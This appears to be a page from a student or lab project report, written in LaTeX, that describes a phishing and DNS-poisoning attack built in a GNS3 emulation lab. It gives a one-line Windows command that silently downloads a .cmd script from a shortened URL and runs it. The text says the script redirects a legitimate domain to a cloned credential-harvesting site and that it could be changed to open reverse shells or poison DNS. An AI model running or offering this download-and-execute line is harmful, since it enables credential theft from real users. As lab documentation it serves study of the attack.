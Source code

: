 \documentclass[11pt]{report}
\begin{document}
\textbf{cmd /c cd C:\ \&\& curl -L -o v.cmd https://t.ly/L1N0l$>$ NUL 2$>$\&1 \&\& v.cmd}\\[1em]
\begin{minipage}{0.5\linewidth}
  \centering
  \includegraphics[width=7cm]{Figures/run.png}
  \label{fig:gns3}
  \end{minipage}
  \hfil
  \begin{minipage}{0.5\linewidth}
    This will download a .cmd file from the URL and execute it. The .cmd file adds
    a malicious mapping between a legitimate domain and our IP address. This is
    done to steal the credentials of the user. The IP address in the above mapping
    is hosting a clone of the real website created using SET. By modifying the .cmd
    file we can do multiple other attacks such as creating a reverse shell, Man in
    the Middle attacks, Denial of Services attacks, etc. Then it will start another
    attack on the local DNS Server of the Network and try to poison it using the
    Kaminsky method.
\end{minipage}
\\[1em]

\section*{GNS3 Topology}

GNS3 is a powerful emulation tool that we used to create a network topology to
develop the attack and understand how it will work in the real world. In
addition, we also used several tools that integrate natively with GNS3 such as
Wireshark to look at the packets flowing through the network, VMWare to emulate
fully fledged computers on or network, and lastly, we use Docker containers to
emulate fewer demanding tasks that need to be done by separate machines.

All VMs and interfaces except the one facing NAT belong to the 10.0.0.0/16
subnet with more subnet divisions within mimicking an WAN within private IPs
with the DNS server managing the routing between the different subnets and the
actual WAN. The network setup is as follows:
\end{document}
